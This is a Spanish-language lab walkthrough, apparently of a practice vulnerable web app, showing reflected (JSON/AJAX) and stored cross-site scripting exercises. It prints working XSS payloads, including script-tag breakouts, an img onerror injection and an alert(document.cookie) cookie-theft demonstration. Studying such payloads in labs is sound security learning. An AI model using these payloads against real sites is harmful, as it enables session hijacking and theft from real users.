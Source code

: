 y esta es su respuesta

![](https://i.imgur.com/4zAkZHj.png)

Probamos a intentar inyectar código 
```xml
<script>alert('GONCHO')</script>
```
![](https://i.imgur.com/WpdJES2.png)

y al inspeccionar el código de la web nos damos cuenta que el script queda atrapado

![](https://i.imgur.com/e67iG32.png)

Por lo que podriamos colar un script de dos distintas formas

```xml
"}]}';alert('GONCHO')</script>
```

o cerrando por completo el script y abriendo otro distinto
```xml
"}]}';</script><script>alert('GONCHO')</script>
```
esta sería su respuesta

![](https://i.imgur.com/N0mtvyi.png)

También podriamos realizar un robo de cookies, de las dos formas que hemos visto anteriormente

```xml
"}]}';alert('GONCHO')</script>
```

```xml
"}]}';</script><script>alert(document.cookie)</script>
```
![](https://i.imgur.com/VMr27Ft.png)

### __XSS - Reflected (AJAX/JSON)__

Deberiamos colocar el siguiente código, el cual indica que si no hay una imagen llamada x, se ejecutará el alert debido al onerror

```xml
<img src=x onerror=alert('GONHO')>
```
![](https://i.imgur.com/arcuq4Y.png)


## __Stored XSS__

Vamos a practicar un ejemplo de XSS Stored

Cambiaremos el input tipo hidden, y lo convertiremos en tipo text

![](https://i.imgur.com/2tas2zK.png)
